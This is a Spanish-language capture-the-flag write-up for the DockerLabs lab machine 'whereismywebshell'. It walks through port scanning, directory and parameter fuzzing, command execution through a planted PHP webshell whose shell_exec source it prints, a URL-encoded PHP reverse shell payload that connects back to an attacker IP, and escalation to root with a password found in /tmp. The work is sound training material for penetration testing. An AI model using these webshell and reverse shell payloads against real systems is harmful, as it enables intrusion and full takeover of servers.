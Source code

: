# Write-up: DockerLabs => whereismywebshell
**Dificultad:** Fácil  
**Fecha:** 05/07/2025  

## Aprendizaje Obtenido:
* Reforzar la explotación web mediante el uso y manipulación de una webshell.
* Implementación del diccionario `SecLists` para fuzzing y enumeración.
* Ejecución de comandos remotos codificados en URL para asegurar su correcta interpretación.
* Uso de páginas online para la generación de reverse shells como `tex2e.github.io` y `revshells.com`.
* Edición y codificación/decodificación de payloads con herramientas como `dencode.com`.
* Comprender la importancia de `-i` en las reverse shells para obtener interactividad.

---

## Proceso de Explotación:

### 1. Reconocimiento de Puertos y Servicios (Nmap)

Realizamos un escaneo de puertos, servicios y sistema operativo para obtener información inicial del objetivo.

`sudo nmap -sSV -O --open 172.17.0.2`

**Resultados:**

`80/tcp open  http    Apache httpd 2.4.57 ((Debian))`  
`OS: Linux 4.X|5.X`  

Se confirma que el servidor web Apache está corriendo en el puerto 80 sobre un sistema operativo Linux (Debian).

### 2\. Enumeración Web (Inspección Manual y Gobuster)

Ingresamos a la página web (`http://172.17.0.2`), que resulta ser una academia de inglés. Durante la inspección manual del código y contenido de la página, se encontró una pista importante al final del sitio:

  * **Pista:** "¡Contáctanos hoy mismo para más información sobre nuestros programas de enseñanza de inglés\!. Guardo un secretito en /tmp ;)"

Luego, utilizamos `gobuster` para la enumeración de directorios y archivos ocultos en el servidor web.

`gobuster dir -u [http://172.17.0.2](http://172.17.0.2) -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,txt -q -b 404,403`

**Resultados de Gobuster:**

  * `/shell.php`
  * `/warning.html`

### 3\. Confirmación de Webshell y Búsqueda de Parámetro

Accedimos a `http://172.17.0.2/warning.html` y encontramos el siguiente mensaje:

  * **Mensaje:** "Esta web ha sido atacada por otro hacker, pero su webshell tiene un parámetro que no recuerdo..."

Al intentar acceder directamente a `/shell.php`, la página aparecía en blanco, lo que confirmaba la necesidad de un parámetro para que la webshell se ejecutara. Procedimos a usar `ffuf` para fuzzear el nombre del parámetro.

`ffuf -u [http://172.17.0.2/shell.php?FUZZ=id](http://172.17.0.2/shell.php?FUZZ=id) -w /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -mc 200,301`

**Resultado de Ffuf:**

  * El parámetro correcto es: `parameter`

Con el parámetro encontrado, confirmamos la ejecución de la webshell enviando un comando simple a través de la URL:

`[http://172.17.0.2/shell.php?parameter=id](http://172.17.0.2/shell.php?parameter=id)`

**Resultado de la ejecución del comando `id`:**

`uid=33(www-data) gid=33(www-data) groups=33(www-data)`

Esto confirmó que la webshell estaba funcionando y que estábamos ejecutando comandos como el usuario `www-data`.

### 5\. Uso de la Webshell para Enumeración

Dado que la webshell ya estaba funcional, pudimos ejecutar comandos directamente desde la URL del navegador usando la sintaxis:

`[http://172.17.0.2/shell.php?parameter=COMANDO](http://172.17.0.2/shell.php?parameter=COMANDO)`

### 6\. Probando Comandos y Buscando Pistas

Realizamos una serie de comandos para enumerar el sistema:

  * **`whoami`**:
      * **Resultado:** `www-data`
  * **`pwd`**:
      * **Resultado:** `/var/www/html`
  * **`ls`**: Listamos el contenido del directorio web.
      * **Resultado:**
        ```
        clase_ingles.jpg
        escuela.jpg
        index.html
        shell.php
        warning.html
        ```
  * **`cat shell.php`**: Para entender cómo la webshell procesa los comandos.
      * **Resultado:**
        ```php
        <?php echo "
        " . shell_exec($_REQUEST['parameter']) . "
        "; ?>
        ```
        Esto confirma que la shell usa `shell_exec()` y el parámetro `parameter` de la petición HTTP.
  * **`find / -perm -4000 -type f 2>/dev/null`**: Buscamos archivos con el bit SUID set, posibles vías de escalada de privilegios.
      * **Resultados:**
        ```
        /usr/bin/su
        /usr/bin/chfn
        /usr/bin/newgrp
        /usr/bin/gpasswd
        /usr/bin/passwd
        /usr/bin/umount
        /usr/bin/mount
        /usr/bin/chsh
        ```
        Aunque se encontraron binarios SUID comunes, ninguno resultó directamente explotable en GTFOBins para una escalada trivial.
  * **`ls -la /tmp`**: Recordando la pista de la web, enumeramos el directorio `/tmp`.
      * **Resultados:**
        ```
        total 12
        drwxrwxrwt 1 root root 4096 Jul  5 06:21 .
        drwxr-xr-x 1 root root 4096 Jul  5 06:21 ..
        -rw-r--r-- 1 root root   21 Apr 12  2024 .secret.txt
        ```
        ¡Encontramos un archivo `.secret.txt` propiedad de `root`\!
  * **`cat /tmp/.secret.txt`**: Leímos el contenido del archivo secreto.
      * **Resultado:**
        ```
        contraseñaderoot123
        ```
        ¡Obtuvimos la contraseña del usuario `root`\!

### 7\. Establecimiento de una Reverse Shell Interactiva

Para facilitar la interacción con el servidor, decidimos obtener una reverse shell interactiva.

  * **Listener en Kali:**

    `nc -lvnp 4444`

  * **Payload inicial (generado por `revshells.com` para PHP, pero no interactivo):**

    `php%20-r%20%27%24sock%3Dfsockopen%28%22192.168.146.132%22%2C4444%29%3Bexec%28%22%2Fbin%2Fsh%20%3C%263%20%3E%263%202%3E%263%22%29%3B%27`

    Este payload, al ser ejecutado, no proporcionó una shell interactiva debido a la ausencia de `-i` para `/bin/sh`.

  * **Payload corregido (agregando `-i` para interactividad):**

    `php%20-r%20%27%24sock%3Dfsockopen%28%22192.168.146.132%22%2C4444%29%3Bexec%28%22%2Fbin%2Fsh%20-i%20%3C%263%20%3E%263%202%3E%263%22%29%3B%27`

    **URL completa utilizada:**
    `http://172.17.0.2/shell.php?parameter=php%20-r%20%27%24sock%3Dfsockopen%28%22192.168.146.132%22%2C4444%29%3Bexec%28%22%2Fbin%2Fsh%20-i%20%3C%263%20%3E%263%202%3E%263%22%29%3B%27`

    Al ejecutar este payload, se obtuvo una reverse shell interactiva exitosamente en nuestra máquina Kali.

  * **Recomendaciones de herramientas para Reverse Shells y Encoding:**

      * Generador de Reverse Shells: [https://tex2e.github.io/reverse-shell-generator/index.html](https://tex2e.github.io/reverse-shell-generator/index.html) y [https://www.revshells.com/](https://www.revshells.com/)
      * Encoder/Decoder de URL: [https://dencode.com/en/](https://dencode.com/en/)

### 8\. Escalada de Privilegios a Root

Una vez dentro del servidor con la reverse shell como `www-data`, utilizamos la contraseña de `root` encontrada para escalar privilegios.

  * En la terminal de Kali (donde teníamos la reverse shell):
    `su root`  
    Se nos solicitó la contraseña, e ingresamos: `contraseñaderoot123`

### 9\. Verificación de Root

Confirmamos que la escalada de privilegios fue exitosa:

> `whoami` = `root`

